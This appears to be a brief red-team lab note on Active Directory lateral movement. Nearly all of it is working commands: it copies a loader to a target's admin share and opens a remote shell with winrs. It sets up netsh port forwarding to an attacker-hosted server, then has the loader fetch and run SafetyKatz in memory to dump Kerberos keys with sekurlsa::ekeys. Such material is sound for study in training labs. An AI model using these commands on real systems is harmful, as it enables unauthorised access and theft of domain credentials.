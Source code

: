 copy loader to location
```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-<>\C$\Users\Public\Loader.exe
```
host safteykatz.exe on hfs
```
winrs -r:dcorp-<> cmd
```
launch powershell 
```
powershell
```
enable port forwarding
```
$null | winrs -r:dcorp-<> "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"

```
extract credentials
```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

[[Rubeus]]

